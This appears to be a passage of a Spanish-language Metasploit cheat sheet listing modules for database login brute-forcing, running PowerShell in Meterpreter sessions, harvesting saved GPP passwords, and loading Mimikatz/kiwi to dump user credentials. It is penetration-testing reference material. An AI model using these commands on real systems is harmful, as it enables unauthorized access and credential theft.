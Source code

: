 Modulo para autenticarse en el servicio MSSQL.
{% highlight markdown %}  
use auxiliary/scanner/mssql/mssql_login
{% endhighlight %}     

Identificar la version de MySQL.
{% highlight markdown %}  
use auxiliary/scanner/mysql/mysql_version
{% endhighlight %}     

Modulo para autenticarse en el servicio de Oracle
{% highlight markdown %}  
use auxiliary/scanner/oracle/oracle_login
{% endhighlight %}     

Ejecucion de script en powershell para una sesion de meterpreter
{% highlight markdown %}  
post/windows/manage/powershell/exec_powershell
{% endhighlight %}     

Ver privilegios del usuario actual.
{% highlight markdown %}  
run post/windows/gather/win_privs
{% endhighlight %}     

Obtener contraseñas guardadas GPP
{% highlight markdown %}  
use post/windows/gather/credentials/gpp
{% endhighlight %}     

Cargar Mimikatz/kiwi para conseguir credenciales de usuarios autenticados.
{% highlight markdown %}  
load kiwi
creds_all
{% endhighlight %}   
